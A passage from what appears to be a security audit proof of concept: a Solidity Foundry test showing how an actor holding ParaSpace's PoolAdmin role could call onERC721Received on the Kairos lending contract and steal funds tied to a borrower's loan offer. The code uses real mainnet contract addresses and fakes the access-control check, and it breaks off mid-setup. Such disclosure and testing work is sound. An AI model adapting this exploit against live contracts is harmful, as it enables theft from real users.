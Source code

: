 ```solidity

//Contract to patch the paraspace acl check for us to be PoolAdmin
contract FakeACL {
  function isPoolAdmin(address) public pure returns (bool) {
    return true;
  }
}

contract MyTests is External, Signature, IERC721Receiver {
  uint256 pkey = 1; //private key to generate the lender signature

  //this test assumes the role of PoolAdmin at ParaSpace ( https://app.para.space )
  //and then directly calls onERC721Received on kairos to steal the money
  //associated with a loan offer from a borrower

  function testParaspaceExecuteAirdrop() public {
    //address for the paraspaceBoundNFT
    //this NFT is minted whenever someone deposits the underlying NFT
    //and borrows against it
    //this particular one below is for MAYC as the underlying token
    iNFT paraspaceBoundNFT = iNFT(0xFA51cdc70c512c13eF1e4A3dbf1e99082b242896);

    //access control contract which is called upon by various paraspace contract
    //to check for roles of msg.sender
    //we will patch this with our FakeACL contract to simulate that we have
    //the PoolAdmin role
    address paraspace_acl = 0x42b0C49130162F949e82ba855C4eFF0C3Fd4C5cC;

    vm.prank(OWNER);
    //add minimum cost for DDos protection
    kairos.setMinOfferCost(IERC20(address(money)), 0.1 ether);

    vm.label(vm.addr(pkey), "LENDER");
    vm.label(address(kairos), "KAIROS");
    vm.label(address(paraspaceBoundNFT), "ParaspaceNFT");

    //lender payload and signature
    BorrowArg[] memory myargs = new BorrowArg[](1);
    myargs[0].nft.implem = IERC721(address(paraspaceBoundNFT));
    myargs[0].nft.id = 1234;

    myargs[0].args = new OfferArg[](1);
    myargs[0].args[0].amount = 10 ether;

    myargs[0].args[0].offer.assetToLend = money;
    myargs[0].args[0].offer.loanToValue = 10 ether;
    myargs[0].args[0].offer.duration = 2 weeks;
    myargs[0].args[0].offer.expirationDate = block.timestamp + 2 hours;
    myargs[0].args[0].offer.tranche = 0;

    myargs[0].args[0].offer.collateral.implem = IERC721(
      address(paraspaceBoundNFT)
    );
    myargs[0].args[0].offer.collateral.id = 1234;
    bytes32 mydigest = kairos.offerDigest(myargs[0].args[0].offer);

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(pkey, mydigest);

    myargs[0].args[0].signature = bytes.concat(r, s, bytes1(v));

    getFlooz(vm.addr(pkey), money, myargs[0].args[0].offer.loanToValue);

    //Patch the paraspace ACL contract so we can simulate
```
